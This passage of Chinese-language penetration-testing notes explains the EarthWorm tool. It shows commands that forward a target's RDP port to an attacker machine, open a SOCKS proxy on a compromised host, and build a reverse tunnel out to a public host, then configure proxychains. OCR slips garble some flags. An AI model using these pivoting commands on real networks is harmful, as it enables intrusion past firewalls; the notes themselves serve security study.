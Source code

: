 **工具参数说明:**

​	-| 开放指定端口监听
​	-d 指定转发或反弹的主机地址
​	-e 指定转发或反弹的主机端口
​	-f 指定连接或映射的主机地址
​	-g 指定连接或映射的主机端口
​	-t 设置超时时间
​	-s 选定6种状态中的一种

**LCX功能**

- 攻击机:把5555端口流量转发到本地的8888端口

  `ew -s Icx listen -| 8888 -e 5555`

- 靶机:把本地3389端口转发到远程攻击机IP的5555端口

  `ew -s Lcx_slave -d攻击机IP -e 5555 -f 127.0.0.1 -g 3389`

- 其中的5555端口，用于攻击机和靶机之间的通信

 **SOCK5 内网穿透功能**

   SOCKS5 是一个代理协议，它在使用TCP/IP协议通讯的前端机器和服务器机器之间扮演一个中介角色，使得内部网中的前端机器变得能够访问Internet网中的服务器，或者使通讯更加安全

【正向代理】 目标网络边界存在公网IP且可任意开监听端口

- 目标： ew -s ssocksd –l 8888 // 在被攻击主机上通过这个命令开启8888端口的socks代理

【反向代理】 目标网络边界不存在公网IP，需要通过反弹方式创建socks代理，或者开启了防火墙，限制入站流量

- 在公网主机上添加转接隧道，将1080收到的代理请求转交给反连8888端口的主机

​	`ew -s rcsocks -l 1080 -e 8888`

- 将目标网络的可控边界主机反向连接公网主机

​	`ew -s rssocks -d 1.1.1.1 -e 8888`

> 代理成功后用socks连接工具连接

6.2.3socks连接工具

 Windows 平台下连接工具SocksCap64-Portable

 Linux平台下连接工具代理连接工具是proxychains

配置代理
	vim /etc/proxychains.conf
	末尾添加一行 socks5 [本地主机IP] 8888
使用:
	在命令前加proxychains
	如: proxychains curl " http://www.google.com

